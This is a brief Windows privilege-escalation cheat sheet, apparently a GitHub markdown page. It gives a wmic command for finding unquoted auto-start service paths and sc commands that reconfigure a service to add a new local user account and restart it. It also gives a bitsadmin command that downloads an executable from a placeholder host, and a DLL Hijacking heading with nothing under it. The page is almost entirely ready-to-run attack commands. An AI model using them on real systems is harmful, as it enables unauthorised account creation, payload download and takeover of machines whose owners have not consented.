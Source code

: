 # Windows Privilege Escalation

### Unquoted Services
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

```
sc config "service" binpath= "net user username password /add"
sc stop "service"
sc start "service"
```
### DLL Hijacking


### Bitsadmin
```
bitsadmin /transfer job /download /priority normal http://<host>/filename.exe C:\\<directory>\\<directory>\\filename.exe
```
